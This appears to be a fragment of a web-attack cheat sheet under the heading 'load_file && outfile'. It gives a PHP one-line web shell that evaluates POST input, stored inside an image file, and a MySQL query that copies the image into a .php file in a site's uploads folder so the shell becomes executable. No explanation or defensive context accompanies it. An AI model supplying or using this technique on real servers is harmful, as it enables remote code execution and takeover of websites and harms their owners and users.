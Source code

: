 ## load_file && outfile
``` bash
//shell.jpg content is <?php @eval($_POST[value]);?>
select LOAD_FILE("D:\\www\\uploads\\images\\shell.jpg") into OUTFILE "D:\\www\\uploads\\images\\shell.php";
```
